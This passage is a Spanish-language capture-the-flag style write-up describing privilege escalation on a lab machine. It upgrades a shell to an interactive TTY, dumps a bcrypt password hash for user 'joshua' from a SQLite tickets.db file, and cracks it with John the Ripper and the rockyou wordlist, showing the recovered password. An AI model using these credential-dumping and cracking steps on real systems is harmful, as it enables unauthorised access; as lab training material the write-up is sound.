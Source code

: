 ## Escalada de Privilegios (Joshua)
Para empezar, se quiere generar una **TTY interactiva** para poder ejecutar comandos dentro de la máquina de forma más cómoda. Por lo que se sigue la siguiente lista de comandos:

```bash
script /dev/null -c bash
ctrl + z
stty raw -echo;fg
reset
xterm
export TERM=xterm
export SHELL=bash
stty rows 24 columns 126
```
Y se ha obtenido una terminal interactiva.


Al revisar dentro de la ruta **/var/www/contact**, se encuentra un archivo llamado **tickets.db** . Sin embargo, para revisarlo de forma adecuada, se puede hacer uso de **SQLite3** y realizar consultas **SQL**.

```bash
sqlite3 tickets.db
```
{: .nolineno}

```sql
sqlite> .tables 
tickets  users  
sqlite> select * from users ;
3|joshua|$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
sqlite> 
```
{: .nolineno}


Ahora se puede **crackear** el **hash** con **John the Ripper**, Pero primero es necesario guardarlo en un archivo.

```bash
$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
```
{: .nolineno file="hash"}

Y se ejecuta el siguiente comando:

```bash
john hash  -wordlist=/usr/share/wordlists/rockyou.txt

spongebob1       (?)
1g 0:00:00:39 DONE (2023-11-12 20:06) 0.02559g/s 35.01p/s 35.01c/s 35.01C/s crazy1..angel123
Use the "--show" option to display all of the cracked passwords reliably
Session completed

```
{: .nolineno}
